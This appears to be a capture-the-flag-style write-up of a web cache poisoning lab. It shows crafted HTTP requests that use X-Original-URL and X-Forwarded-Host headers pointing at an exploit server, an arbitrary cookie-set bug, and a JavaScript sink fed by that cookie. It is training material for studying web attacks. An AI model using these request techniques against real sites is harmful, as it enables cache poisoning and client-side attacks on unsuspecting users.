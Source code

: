 Discovered the `X-Original-URL` is supported:
```http
GET / HTTP/1.1
Host: 0aeb00c2044baa0e81c5200600a7007f.web-security-academy.net
x-forwarded-host: exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net
X-Original-URL: /setlang/0xbro?
Connection: close


HTTP/1.1 302 Found
Location: /?localized=1
Cache-Control: private
Set-Cookie: lang=0xbro; Path=/; Secure
```

Detected an arbitrary cookie set vulnerability (noticed that the `?localized=1` works as a cache buster):
```http
GET /setlang/foo? HTTP/1.1
Host: 0aca005504fea6bb81c1c683009c0050.web-security-academy.net

HTTP/1.1 302 Found
Location: /?localized=1
Cache-Control: private
Set-Cookie: lang=foo; Path=/; Secure
```

`/resources/js/translations.js` contains a sink whose data can be controlled using the arbitrary cookie set:
```js
function initTranslations(jsonUrl)
{
    ...

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name; // this value is retrieved by the JSON from the server --> {"0xbro": {"name": "foo"}}
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }
...
}
```
